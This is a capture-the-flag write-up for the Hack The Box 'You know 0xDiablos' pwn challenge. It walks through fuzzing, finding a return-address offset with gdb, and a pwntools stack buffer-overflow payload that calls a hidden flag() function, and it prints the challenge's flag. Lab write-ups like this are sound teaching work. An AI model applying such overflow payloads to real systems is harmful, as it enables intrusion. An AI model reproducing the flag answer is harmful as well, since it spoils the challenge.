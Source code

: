 > **I missed my flag**

> Author: **[RET2pwn][author-profile]**

## Fast and failed

The binary asks for "OxDiablos" and then echoes our input:

```
You know who are 0xDiablos: 
&é"'(-è_çà)=$^*ù!:;,<>?./§µ%£+°²¬¹~#{[|`\^@]}¨¤^`·´| 
&é"'(-è_çà)=$^*ù!:;,<>?./§µ%£+°²¬¹~#{[|`\^@]}¨¤^`·``·´|
```

Apparently, special characters aren't.

Nothing outstanding from `binwalk`, `ltrace`, `strace`, `trid`, `exiftool`.

`strings -n4` returns:

```
flag.txt
flag
```

But this doesn't tell us how to approach the challenge.

## Overflowing

Fuzzing the binary gives: 

```
You know who are 0xDiablos: 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
Segmentation fault (core dumped)
```

So 256 `i` break the binary and cause a segmentation fault / overwrite the
return address.

To locate the portion of the input which overwrites the return address, we
generate a cyclic pattern. In gdb / gef:

```bash
pattern create 256
```

Next, `run` break with `Ctrl + C` on the prompt and input the pattern.
Stepping through the following instructions, we reach the return at `vuln+62`.

At this point the stack pointer is on the return address. It has been
overwritten by a part of our input and contains "waab".

Any 4-byte segment in the pattern is unique, so we can use this to find the
actual portion that overwrote the return address:


```bash
pattern search waab
# or
pattern search $esp
```

> It is found at offset 188.

We still need to find a useful address to jump to.

## Jumping to the flag

Back at the start, we found a "flag" reference in the binary. It is actually
an exported function.

GDB can display its address:

```bash
# flag in section .text of /root/workspace/ctf/hackthebox/pwn/you-know-0xdiablos/vuln
info symbol flag
# Symbol "flag" is at 0x80491e2 in a file compiled without debugging.
info address flag
```

This will go at offset 188, making the binary jump to the flag function.

Ghidra allows to browse the code of "flag": it will output the content of the
"flag.txt" file on condition. The two parameters must be specific integers:

```c
if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
```

`-0x21524111` is a two's complement negation: it is actually `0xdeadbeef`.
Similarly, `-0x3f212ff3` is `0xc0ded00d`.

So we can finally craft a payload to trigger the execution of "flag":

```python
payload = pwn.cyclic(188)       # whatever
payload += pwn.p32(0x080491e2)  # flag() address
payload += pwn.p32(0X11111111)  # useless
payload += pwn.p32(0xdeadbeef)  # argument 1, -0x21524111 in 2's complement
payload += pwn.p32(0xc0ded00d)  # argument 2, -0x3f212ff3
```

Sending this to the server, we get:

> HTB{0ur_Buff3r_1s_not_healthy}

[author-profile]: https://app.hackthebox.eu/users/47422